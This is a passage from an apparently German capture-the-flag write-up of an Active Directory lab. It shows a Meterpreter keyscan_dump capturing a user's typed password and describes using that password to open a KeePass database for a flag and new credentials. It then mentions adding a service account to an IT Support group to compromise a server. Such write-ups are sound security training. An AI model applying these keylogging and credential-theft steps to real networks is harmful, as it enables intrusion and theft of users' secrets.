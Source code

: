       ```
      meterpreter\>keyscan_dump
      Dumping captured keystrokes...
      keep<CR>
      <Shift>Passwordbeispiel<CR>
      ```

Wir öffnen die Datenbank mit KeePassXc, geben das Passwort ein, dass wir dem User Trevor.local entnommen haben durch das Keylogging.
   
   Wir bekommen die Flag als auch neue Credentials aus der Datenbank

---

## Sidequest "SVCSERVMAN IT Support hinzufügen"

![alt text](images/image-1.png)

Mit unseren neuen Credentials für den User "***svcservman***" sehen wir jetzt zwei Angriffsmöglichkeiten. Auf den oberen gehen wir im nächsten Kapitel ein.

Ganz kurz zur Erinnerung: Den unteren Angriffsvektor kennen wir bereits. Wir fügen unseren User der IT Support Gruppe hinzu und pwned somit sofort THMSERVER2.

---

# Exploit GPO's
